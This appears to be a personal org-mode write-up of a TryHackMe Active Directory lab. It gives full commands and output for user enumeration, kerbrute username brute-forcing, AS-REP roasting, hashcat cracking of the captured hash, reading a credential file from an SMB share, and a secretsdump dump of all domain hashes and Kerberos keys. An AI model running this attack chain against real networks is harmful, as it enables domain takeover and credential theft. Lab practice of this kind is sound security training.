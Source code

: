 #+TITLE: ad

* enum4linux
#+begin_src bash

┌─[✗]─[root@parrot-virtual]─[~/haxx/ctf/thm/ad]
└──╼ # enum4linux -U -o 10.10.39.110
Starting enum4linux v0.8.9 ( http://labs.portcullis.co.uk/application/enum4linux/  ) on Sat Nov 14 09:26:49 2020

 ==========================
 |    Target Information    |
 ==========================
 Target ........... 10.10.39.110
 RID Range ........ 500-550,1000-1050
 Username ......... ''
 Password ......... ''
 Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none


  ====================================================
  |    Enumerating Workgroup/Domain on 10.10.39.110    |
 ====================================================
 [E] Cant find workgroup/domain


  =====================================
  |    Session Check on 10.10.39.110    |
 =====================================
 Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 437.
 [+] Server 10.10.39.110 allows sessions using username '', password ''
 Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 451.
 [+] Got domain/workgroup name:

  ===========================================
  |    Getting domain SID for 10.10.39.110    |
 ===========================================
 Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 359.
 : THM-AD
 Domain Sid: S-1-5-21-3591857110-2884097990-301047963
 [+] Host is part of a domain (not a workgroup)

  ======================================
  |    OS information on 10.10.39.110    |
 ======================================
 Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 458.
 Use of uninitialized value $os_info in concatenation (.) or string at ./enum4linux.pl line 464.
 [+] Got OS info for 10.10.39.110 from smbclient:
 Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 467.
 [+] Got OS info for 10.10.39.110 from srvinfo:
 Could not initialise srvsvc. Error was NT_STATUS_ACCESS_DENIED

  =============================
  |    Users on 10.10.39.110    |
 =============================
 Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 866.
 [E] Couldnt find users using querydispinfo: NT_STATUS_ACCESS_DENIED

 Use of uninitialized value $global_workgroup in concatenation (.) or string at ./enum4linux.pl line 881.
 [E] Couldnt find users using enumdomusers: NT_STATUS_ACCESS_DENIED
 enum4linux complete on Sat Nov 14 09:27:05 2020

#+end_src


* /etc/hosts
- added the ip and the TLD for the Active Directory Domain
  : spookysec.local

* kerbrute
-interesting usernames
: svc-admin
: backp

#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/ad]
└──╼ # ./kerbrute_linux_amd64 userenum --dc spookysec.local -d spookysec.local userlist.txt -t 100

               / /_____  _____/ /_  _______  __/ /____
              / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
             / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
            /_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

        Version: v1.0.3 (9dad6e1) - 11/14/20 - Ronnie Flathers @ropnop

        2020/11/14 09:50:35 >  Using KDC(s):
        2020/11/14 09:50:35 >   spookysec.local:88

        2020/11/14 09:50:35 >  [+] VALID USERNAME:       james@spookysec.local
        2020/11/14 09:50:40 >  [+] VALID USERNAME:       svc-admin@spookysec.local
        2020/11/14 09:50:41 >  [+] VALID USERNAME:       robin@spookysec.local
        2020/11/14 09:50:46 >  [+] VALID USERNAME:       James@spookysec.local
        2020/11/14 09:50:57 >  [+] VALID USERNAME:       darkstar@spookysec.local
        2020/11/14 09:50:58 >  [+] VALID USERNAME:       administrator@spookysec.local
        2020/11/14 09:51:00 >  [+] VALID USERNAME:       backup@spookysec.local
        2020/11/14 09:51:01 >  [+] VALID USERNAME:       paradox@spookysec.local
        2020/11/14 09:51:05 >  [+] VALID USERNAME:       JAMES@spookysec.local
        2020/11/14 09:51:06 >  [+] VALID USERNAME:       Robin@spookysec.local
        2020/11/14 09:51:14 >  [+] VALID USERNAME:       Administrator@spookysec.local
        2020/11/14 09:51:28 >  [+] VALID USERNAME:       Darkstar@spookysec.local
        2020/11/14 09:51:32 >  [+] VALID USERNAME:       Paradox@spookysec.local
        2020/11/14 09:51:46 >  [+] VALID USERNAME:       DARKSTAR@spookysec.local
        2020/11/14 09:51:50 >  [+] VALID USERNAME:       ori@spookysec.local
        2020/11/14 09:51:58 >  [+] VALID USERNAME:       ROBIN@spookysec.local
        2020/11/14 09:52:47 >  Done! Tested 100000 usernames (16 valid) in 132.607 seconds

#+end_src

* impacket GetNPUsers.py
#+begin_src bash
 $krb5asrep$23$svc-admin@spookysec.local@SPOOKYSEC.LOCAL:c1b863161c61cf9712fb1fb2afede37c$4b794336bad289c4d897b9aab2a9d23b773096603a78589dcd71ae6f2364407d8cb5b51f7048d21188b6a6f86dcef38f43f2b263dfbd7c8a3788792f8416d7884ed5a8e0c1f74d5b9cc874b1bf225edfd1f8b56ae0535a2ab3c867c33b36acd478cce7293b71738eeb80fd8239a739773d55aebe584358eb01ced223c5efdbe3d0254b5d8e1970910d3a2244d984a80b1e1e011c21f3dc29f8387867cc74a3b2f2caa77982a48b334b4f322dc14cf16eb6754c53eb01e592986d19dc0efeb90fd275bbb4449c238d9ff63e47394c4e9871d2dd0aedaea76b17fa0f5ce07b8c7fdfc3c55990b9f7d9a572a71eb7e9f01e87d9

┌─[✗]─[root@parrot-virtual]─[~/haxx/ctf/thm/ad/impacket]
└──╼ # python3 GetNPUsers.py spookysec.local/ -no-pass -usersfile ../users
Impacket v0.9.22.dev1+20201112.141202.d1ced941 - Copyright 2020 SecureAuth Corporation

[-] User james@spookysec.local doesnt have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$svc-admin@spookysec.local@SPOOKYSEC.LOCAL:c1b863161c61cf9712fb1fb2afede37c$4b794336bad289c4d897b9aab2a9d23b773096603a78589dcd71ae6f2364407d8cb5b51f7048d21188b6a6f86dcef38f43f2b263dfbd7c8a3788792f8416d7884ed5a8e0c1f74d5b9cc874b1bf225edfd1f8b56ae0535a2ab3c867c33b36acd478cce7293b71738eeb80fd8239a739773d55aebe584358eb01ced223c5efdbe3d0254b5d8e1970910d3a2244d984a80b1e1e011c21f3dc29f8387867cc74a3b2f2caa77982a48b334b4f322dc14cf16eb6754c53eb01e592986d19dc0efeb90fd275bbb4449c238d9ff63e47394c4e9871d2dd0aedaea76b17fa0f5ce07b8c7fdfc3c55990b9f7d9a572a71eb7e9f01e87d9
[-] User robin@spookysec.local doesnt have UF_DONT_REQUIRE_PREAUTH set
[-] User James@spookysec.local doesnt have UF_DONT_REQUIRE_PREAUTH set
[-] User darkstar@spookysec.local doesnt have UF_DONT_REQUIRE_PREAUTH set
[-] User administrator@spookysec.local doesnt have UF_DONT_REQUIRE_PREAUTH set
[-] User backup@spookysec.local doesnt have UF_DONT_REQUIRE_PREAUTH set
[-] User paradox@spookysec.local doesnt have UF_DONT_REQUIRE_PREAUTH set
[-] User JAMES@spookysec.local doesnt have UF_DONT_REQUIRE_PREAUTH set
[-] User Robin@spookysec.local doesnt have UF_DONT_REQUIRE_PREAUTH set
[-] User Administrator@spookysec.local doesnt have UF_DONT_REQUIRE_PREAUTH set
[-] User Darkstar@spookysec.local doesnt have UF_DONT_REQUIRE_PREAUTH set
[-] User Paradox@spookysec.local doesnt have UF_DONT_REQUIRE_PREAUTH set
[-] User DARKSTAR@spookysec.local doesnt have UF_DONT_REQUIRE_PREAUTH set
[-] User ori@spookysec.local doesnt have UF_DONT_REQUIRE_PREAUTH set
[-] User ROBIN@spookysec.local doesn't have UF_DONT_REQUIRE_PREAUTH set

#+end_src


* hashcat
#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/ad]
└──╼ # hashcat -a 0 -m 18200 18200.hash /usr/share/wordlists/rockyou.txt
hashcat (v6.1.1) starting...

OpenCL API (OpenCL 1.2 pocl 1.5, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
 Device #1: pthread-Intel(R) Core(TM) i7-10875H CPU @ 2.30GHz, 4362/4426 MB (2048 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers applied:
 Zero-Byte
 Not-Iterated
 Single-Hash
 Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
If you want to switch to optimized backend kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 134 MB

Dictionary cache built:
 Filename..: /usr/share/wordlists/rockyou.txt
 Passwords.: 14344392
 Bytes.....: 139921507
 Keyspace..: 14344385
 Runtime...: 1 sec

$krb5asrep$23$svc-admin@spookysec.local@SPOOKYSEC.LOCAL:c1b863161c61cf9712fb1fb2afede37c$4b794336bad289c4d897b9aab2a9d23b773096603a78589dcd71ae6f2364407d8cb5b51f7048d21188b6a6f86dcef38f43f2b263dfbd7c8a3788792f8416d7884ed5a8e0c1f74d5b9cc874b1bf225edfd1f8b56ae0535a2ab3c867c33b36acd478cce7293b71738eeb80fd8239a739773d55aebe584358eb01ced223c5efdbe3d0254b5d8e1970910d3a2244d984a80b1e1e011c21f3dc29f8387867cc74a3b2f2caa77982a48b334b4f322dc14cf16eb6754c53eb01e592986d19dc0efeb90fd275bbb4449c238d9ff63e47394c4e9871d2dd0aedaea76b17fa0f5ce07b8c7fdfc3c55990b9f7d9a572a71eb7e9f01e87d9:management2005

Session..........: hashcat
Status...........: Cracked
Hash.Name........: Kerberos 5, etype 23, AS-REP
Hash.Target......: $krb5asrep$23$svc-admin@spookysec.local@SPOOKYSEC.L...1e87d9
Time.Started.....: Sat Nov 14 10:29:51 2020 (6 secs)
Time.Estimated...: Sat Nov 14 10:29:57 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   963.3 kH/s (8.39ms) @ Accel:64 Loops:1 Thr:64 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 5849088/14344385 (40.78%)
Rejected.........: 0/5849088 (0.00%)
Restore.Point....: 5832704/14344385 (40.66%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: mandj4e -> mama0312

Started: Sat Nov 14 10:29:23 2020
Stopped: Sat Nov 14 10:29:59 2020

#+end_src


* smbclient
- decoding
 #+begin_src bash

  ┌─[root@parrot-virtual]─[~/haxx/ctf/thm/ad]
  └──╼ # echo YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw > base64_encoded && cat base64_encoded | base64 -d > decoded && cat decoded

 #+end_src
  : backup@spookysec.local:backup2517860

-file  backup_credentials.txt
: 3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw

: smbclient -L 10.10.39.110 -U svc-admin
#+begin_src bash

┌─[root@parrot-virtual]─[~/haxx/ctf/thm/ad]
└──╼ # smbclient -L 10.10.39.110 -U svc-admin
Enter WORKGROUP\svc-admin's password:

 Sharename       Type      Comment
 ---------       ----      -------
 ADMIN$          Disk      Remote Admin
 backup          Disk
 C$              Disk      Default share
 IPC$            IPC       Remote IPC
 NETLOGON        Disk      Logon server share
 SYSVOL          Disk      Logon server share
 SMB1 disabled -- no workgroup available

#+end_src

: smbclient \\\\10.10.39.110\\backup -U svc-admin

#+begin_src bash

┌─[✗]─[root@parrot-virtual]─[~/haxx/ctf/thm/ad]
└──╼ # smbclient \\\\10.10.39.110\\backup -U svc-admin
Enter WORKGROUP\svc-admin's password:
Try "help" to get a list of possible commands.
smb: \> ls
.                                   D        0  Sat Apr  4 15:08:39 2020
..                                  D        0  Sat Apr  4 15:08:39 2020
backup_credentials.txt              A       48  Sat Apr  4 15:08:53 2020

8247551 blocks of size 4096. 4021973 blocks available
smb: \>

#+end_src

* impacket secretsdump.py
- admin
  :  Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::

#+begin_src bash

┌─[✗]─[root@parrot-virtual]─[~/haxx/ctf/thm/ad/impacket]
└──╼ # python3 secretsdump.py -dc-ip 10.10.39.110 spookysec.local/backup@10.10.39.110
Impacket v0.9.22.dev1+20201112.141202.d1ced941 - Copyright 2020 SecureAuth Corporation

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
spookysec.local\skidy:1103:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\breakerofthings:1104:aad3b435b51404eeaad3b435b51404ee:5fe9353d4b96cc410b62cb7e11c57ba4:::
spookysec.local\james:1105:aad3b435b51404eeaad3b435b51404ee:9448bf6aba63d154eb0c665071067b6b:::
spookysec.local\optional:1106:aad3b435b51404eeaad3b435b51404ee:436007d1c1550eaf41803f1272656c9e:::
spookysec.local\sherlocksec:1107:aad3b435b51404eeaad3b435b51404ee:b09d48380e99e9965416f0d7096b703b:::
spookysec.local\darkstar:1108:aad3b435b51404eeaad3b435b51404ee:cfd70af882d53d758a1612af78a646b7:::
spookysec.local\Ori:1109:aad3b435b51404eeaad3b435b51404ee:c930ba49f999305d9c00a8745433d62a:::
spookysec.local\robin:1110:aad3b435b51404eeaad3b435b51404ee:642744a46b9d4f6dff8942d23626e5bb:::
spookysec.local\paradox:1111:aad3b435b51404eeaad3b435b51404ee:048052193cfa6ea46b5a302319c0cff2:::
spookysec.local\Muirland:1112:aad3b435b51404eeaad3b435b51404ee:3db8b1419ae75a418b3aa12b8c0fb705:::
spookysec.local\horshark:1113:aad3b435b51404eeaad3b435b51404ee:41317db6bd1fb8c21c2fd2b675238664:::
spookysec.local\svc-admin:1114:aad3b435b51404eeaad3b435b51404ee:fc0f1e5359e372aa1f69147375ba6809:::
spookysec.local\backup:1118:aad3b435b51404eeaad3b435b51404ee:19741bde08e135f4b40f1ca9aab45538:::
spookysec.local\a-spooks:1601:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
ATTACKTIVEDIREC$:1000:aad3b435b51404eeaad3b435b51404ee:f6360805011a6e136aa3a7f148606c79:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:713955f08a8654fb8f70afe0e24bb50eed14e53c8b2274c0c701ad2948ee0f48
Administrator:aes128-cts-hmac-sha1-96:e9077719bc770aff5d8bfc2d54d226ae
Administrator:des-cbc-md5:2079ce0e5df189ad
krbtgt:aes256-cts-hmac-sha1-96:b52e11789ed6709423fd7276148cfed7dea6f189f3234ed0732725cd77f45afc
krbtgt:aes128-cts-hmac-sha1-96:e7301235ae62dd8884d9b890f38e3902
krbtgt:des-cbc-md5:b94f97e97fabbf5d
spookysec.local\skidy:aes256-cts-hmac-sha1-96:3ad697673edca12a01d5237f0bee628460f1e1c348469eba2c4a530ceb432b04
spookysec.local\skidy:aes128-cts-hmac-sha1-96:484d875e30a678b56856b0fef09e1233
spookysec.local\skidy:des-cbc-md5:b092a73e3d256b1f
spookysec.local\breakerofthings:aes256-cts-hmac-sha1-96:4c8a03aa7b52505aeef79cecd3cfd69082fb7eda429045e950e5783eb8be51e5
spookysec.local\breakerofthings:aes128-cts-hmac-sha1-96:38a1f7262634601d2df08b3a004da425
spookysec.local\breakerofthings:des-cbc-md5:7a976bbfab86b064
spookysec.local\james:aes256-cts-hmac-sha1-96:1bb2c7fdbecc9d33f303050d77b6bff0e74d0184b5acbd563c63c102da389112
spookysec.local\james:aes128-cts-hmac-sha1-96:08fea47e79d2b085dae0e95f86c763e6
spookysec.local\james:des-cbc-md5:dc971f4a91dce5e9
spookysec.local\optional:aes256-cts-hmac-sha1-96:fe0553c1f1fc93f90630b6e27e188522b08469dec913766ca5e16327f9a3ddfe
spookysec.local\optional:aes128-cts-hmac-sha1-96:02f4a47a426ba0dc8867b74e90c8d510
spookysec.local\optional:des-cbc-md5:8c6e2a8a615bd054
spookysec.local\sherlocksec:aes256-cts-hmac-sha1-96:80df417629b0ad286b94cadad65a5589c8caf948c1ba42c659bafb8f384cdecd
spookysec.local\sherlocksec:aes128-cts-hmac-sha1-96:c3db61690554a077946ecdabc7b4be0e
spookysec.local\sherlocksec:des-cbc-md5:08dca4cbbc3bb594
spookysec.local\darkstar:aes256-cts-hmac-sha1-96:35c78605606a6d63a40ea4779f15dbbf6d406cb218b2a57b70063c9fa7050499
spookysec.local\darkstar:aes128-cts-hmac-sha1-96:461b7d2356eee84b211767941dc893be
spookysec.local\darkstar:des-cbc-md5:758af4d061381cea
spookysec.local\Ori:aes256-cts-hmac-sha1-96:5534c1b0f98d82219ee4c1cc63cfd73a9416f5f6acfb88bc2bf2e54e94667067
spookysec.local\Ori:aes128-cts-hmac-sha1-96:5ee50856b24d48fddfc9da965737a25e
spookysec.local\Ori:des-cbc-md5:1c8f79864654cd4a
spookysec.local\robin:aes256-cts-hmac-sha1-96:8776bd64fcfcf3800df2f958d144ef72473bd89e310d7a6574f4635ff64b40a3
spookysec.local\robin:aes128-cts-hmac-sha1-96:733bf907e518d2334437eacb9e4033c8
spookysec.local\robin:des-cbc-md5:89a7c2fe7a5b9d64
spookysec.local\paradox:aes256-cts-hmac-sha1-96:64ff474f12aae00c596c1dce0cfc9584358d13fba827081afa7ae2225a5eb9a0
spookysec.local\paradox:aes128-cts-hmac-sha1-96:f09a5214e38285327bb9a7fed1db56b8
spookysec.local\paradox:des-cbc-md5:83988983f8b34019
spookysec.local\Muirland:aes256-cts-hmac-sha1-96:81db9a8a29221c5be13333559a554389e16a80382f1bab51247b95b58b370347
spookysec.local\Muirland:aes128-cts-hmac-sha1-96:2846fc7ba29b36ff6401781bc90e1aaa
spookysec.local\Muirland:des-cbc-md5:cb8a4a3431648c86
spookysec.local\horshark:aes256-cts-hmac-sha1-96:891e3ae9c420659cafb5a6237120b50f26481b6838b3efa6a171ae84dd11c166
spookysec.local\horshark:aes128-cts-hmac-sha1-96:c6f6248b932ffd75103677a15873837c
spookysec.local\horshark:des-cbc-md5:a823497a7f4c0157
spookysec.local\svc-admin:aes256-cts-hmac-sha1-96:effa9b7dd43e1e58db9ac68a4397822b5e68f8d29647911df20b626d82863518
spookysec.local\svc-admin:aes128-cts-hmac-sha1-96:aed45e45fda7e02e0b9b0ae87030b3ff
spookysec.local\svc-admin:des-cbc-md5:2c4543ef4646ea0d
spookysec.local\backup:aes256-cts-hmac-sha1-96:23566872a9951102d116224ea4ac8943483bf0efd74d61fda15d104829412922
spookysec.local\backup:aes128-cts-hmac-sha1-96:843ddb2aec9b7c1c5c0bf971c836d197
spookysec.local\backup:des-cbc-md5:d601e9469b2f6d89
spookysec.local\a-spooks:aes256-cts-hmac-sha1-96:cfd00f7ebd5ec38a5921a408834886f40a1f40cda656f38c93477fb4f6bd1242
spookysec.local\a-spooks:aes128-cts-hmac-sha1-96:31d65c2f73fb142ddc60e0f3843e2f68
spookysec.local\a-spooks:des-cbc-md5:e09e4683ef4a4ce9
ATTACKTIVEDIREC$:aes256-cts-hmac-sha1-96:663cd6165560728d68523414176931b116e4cc362a1660574546c51c34eba7d7
ATTACKTIVEDIREC$:aes128-cts-hmac-sha1-96:a8937dc0a1448d9c6ff87e04fcef1534
ATTACKTIVEDIREC$:des-cbc-md5:497a40a1fd4a616b
[*] Cleaning up...

#+end_src
